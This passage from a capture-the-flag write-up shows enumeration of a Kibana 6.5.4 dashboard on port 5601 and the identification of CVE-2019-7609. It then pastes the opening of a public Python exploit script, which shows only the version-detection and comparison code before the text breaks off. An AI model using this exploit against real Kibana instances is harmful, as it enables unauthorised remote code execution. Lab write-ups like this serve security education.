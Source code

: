 We notice a strange port open on `5601`. And while nmap is not able to determine what exactly is open there - we can see from its diagnostics that it is some sort of http portal we can access.

```bash
open http://$IP:5601
```

Reveals some sort of visualisation dashboard. We can quickly find what version of Kiba this is from checking the source code of the page and searching for `version`; which is revealed to be `6.5.4`.

---

### Finding vunerabilities

Now that we have a version - we can google for vunerabilities associated with this. Initially you may find `Kibana 6.6.1` but disregard this as the room does not want this CVE. It wants `CVE-2019-7609`. Using the [article](https://www.tenable.com/blog/cve-2019-7609-exploit-script-available-for-kibana-remote-code-execution-vulnerability) I found, it points me to a gihub repo with a script in `python2` I can use to exploit the dashboard.

```python
#!/usr/bin/env python
# coding:utf-8
# Build By LandGrey

import re
import sys
import time
import random
import argparse
import requests
import traceback
from distutils.version import StrictVersion

def get_kibana_version(url):
    headers = {
        'Referer': url,
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0',
    }
    url = "{}{}".format(url.rstrip("/"), "/app/kibana")
    r = requests.get(url, verify=False, headers=headers, timeout=30)
    patterns = ['&quot;version&quot;:&quot;(.*?)&quot;,', '"version":"(.*?)",']
    for pattern in patterns:
        match = re.findall(pattern, r.content)
        if match:
            return match[0]
    return '9.9.9'


def version_compare(standard_version, compare_version):
    try:
        sc1 = StrictVersion(standard_version[0])
        sc2 = StrictVersion(standard_version[1])
        cc = StrictVersion(compare_version)
    except ValueError:
        print("[-] ERROR : kibana version compare failed !")
        return False

    if sc1 > cc or (StrictVersion("6.0.0") <= cc and sc2 > cc):
        return True
    return False


def verify(url):
    global version
```